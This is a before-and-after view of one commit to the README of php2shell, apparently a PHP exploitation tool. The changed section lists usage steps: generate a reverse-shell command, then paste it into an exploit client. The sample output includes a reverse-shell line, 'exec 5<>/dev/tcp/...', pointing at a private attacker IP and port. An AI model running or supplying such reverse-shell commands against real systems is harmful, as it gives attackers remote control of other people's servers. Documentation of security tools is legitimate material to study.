

Before and after one commit to hoed/php2shell, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Revise reverse shell command output examples
Updated output examples for reverse shell command generation.

```diff
--- a/README.md
+++ b/README.md
@@ -312,14 +312,16 @@ php2shell-sentinel assess \
 > 🔒 Targets **not** in `--allowlist` are skipped automatically.
 
 # 1. Generate the reverse shell command
+---bash
 python3 reverse_shell_builder.py
-# Output:... Enter Attacker IP:...
-# Output:... Enter Attacker Port: 4444...
-# Output: Command to execute via php2shell: exec 5<>/dev/tcp/192.168.1.50/4444;...
+Output:... Enter Attacker IP:...
+Output:... Enter Attacker Port: 4444...
+Output: Command to execute via php2shell: exec 5<>/dev/tcp/192.168.1.50/4444;...
 
 # 2. Execute it using the Python client
 python3 php2shell_exploit_tool.py
-# (Inside the tool, paste the command from step 1 into the interactive shell)
+(Inside the tool, paste the command from step 1 into the interactive shell)
+---
 ---
 
 ### 4. `fingerprint` — Deep Fingerprint
```
